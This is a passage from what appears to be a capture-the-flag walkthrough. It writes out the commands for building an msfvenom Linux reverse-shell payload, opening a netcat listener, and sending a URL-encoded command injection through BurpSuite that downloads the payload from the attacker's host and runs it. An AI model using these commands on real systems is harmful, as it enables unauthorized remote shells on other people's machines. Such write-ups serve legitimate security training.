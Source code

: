 Nice! Use this to get a dedicated shell:

```bash
msfvenom -p linux/x86/shell_reverse_tcp \
         LHOST=10.10.14.25 \
         LPORT=6969 \
         -f elf \
         -o bubba.elf
nc -nvlp 6969
sudo python3 -m http.server 80
```

Then send the following command URL encoded through BurpSuite:

```bash
P='wget -O /dev/shm/bubba.elf 10.10.14.25/bubba.elf && chmod +x /dev/shm/bubba.elf && /dev/shm/bubba.elf'
python3 -c "import urllib.parse;print(urllib.parse.quote('$P'))"
```

![burp5](./magic/burp5.png)

And this results in a reverse shell but not `user.txt`:

![user1](./magic/user1.png)
